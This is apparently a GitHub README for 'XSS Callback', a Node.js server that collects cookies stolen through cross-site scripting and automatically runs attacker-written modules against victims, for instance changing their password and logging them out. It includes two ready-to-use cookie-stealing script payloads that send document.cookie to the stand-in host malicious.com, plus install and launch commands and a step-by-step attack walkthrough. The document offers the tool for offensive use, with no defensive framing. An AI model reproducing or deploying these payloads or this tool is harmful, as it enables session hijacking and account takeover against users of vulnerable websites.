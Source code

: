 ### XSS Callback

XSS Callback is a tool allowing you to exploit XSS vulnerabilities.

This is a HTTP Server (developed in Node.js) that is listening on a specific port (defined when launching it).
Everytime a victim will load the malicious link with his own cookie, the server will automatically launch the *offensive* module that you've written. 

**Example of module :**

*After getting the user's cookie :*
- Send a request to change his password
- Log him out

### Basic exploitation of XSS 

One common way to exploit those flaws is to create a PHP file/CGI script that will harvest victim's cookies and collect them in some file/database. 

Example of those basic payload : 
```
<script>document.location='http://malicious.com/cookie.php?cookie='+document.cookie</script>
```

Then, the attacker will be able to re-use those information to hijack victim's session. Ok. 
<br />

### What to do with XSS Callback ? 

Instead of reading your file for victim's cookie, XSS Callback is doing **your** job by calling your *offensive* module,  dynamically loaded when starting the App. 

You just need to write your own module corresponding to the application you want to target and launch the application to be accessible from the outside. (On your server)

You don't have to wait and read a file anymore. You perform the attack directly when you receive some data on this specific URL. 
This is the concept of *event driven programming*. 
### Installation

Just clone the project : 
```
git clone git@github.com:PaulSec/XSS-Callback.git
```

Go in the directory and launch the application for the usage : 

```
cd XSS-Callback && node server.js
```

Usage is then displayed : 

```
Usage : node server.js <module.js> <port : default 8080>
```
### Use case


#### 1) Find a XSS

Ok, you got it! 

#### 2) Launch XSS Callback : 

On malicous.com, launch the tool : 

```
node server.js ./module/template.js 8080
```

#### 2) Insert your payload
Insert your payload on the website : 

```
<script>document.location='http://malicious.com/cookie/'+document.cookie</script>
```

#### 3) Check the console log
<br />
### License & Conclusion

Feel free to give your feedback, ask for new features for this tool. 
Moreover, if you need an example of how to write a module, don't hesitate. 

